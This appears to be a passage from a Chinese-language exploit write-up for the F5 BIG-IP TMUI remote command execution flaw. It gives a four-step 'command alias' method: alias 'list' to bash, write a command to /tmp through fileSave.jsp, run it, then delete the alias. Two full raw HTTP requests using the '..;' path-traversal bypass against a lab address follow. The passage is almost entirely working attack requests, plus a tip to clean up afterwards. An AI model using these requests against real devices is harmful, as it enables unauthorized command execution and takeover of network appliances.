 方式一：指令别名方式  
```
tmshCmd.jsp?command=create+cli+alias+private+list+command+bash   #先创建执行命令的模式，将list设置为bash的别名
fileSave.jsp?fileName=/tmp/cmd&content=id#向创建的文件中写入要执行的命令
tmshCmd.jsp?command=list+/tmp/cmd                 #利用前面设置的list来执行文件中的命令
tmshCmd.jsp?command=delete+cli+alias+private+list#最后清空list

PS:在操作之前, 首先要登录Web，否则返回数据一直为空,同时在操作之后记得清空list
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuH5rCvMALE9iau4UJNLaJmQ0VmqncibhHice83dHGOhJalXL3h5ettibic32w/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHvMDolYbo4iadayPrziaZh8CTRHLygvUtt1IVGbrWjZ1re4yw5Ta1ZBnA/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/cmd&content=id HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F

```  
  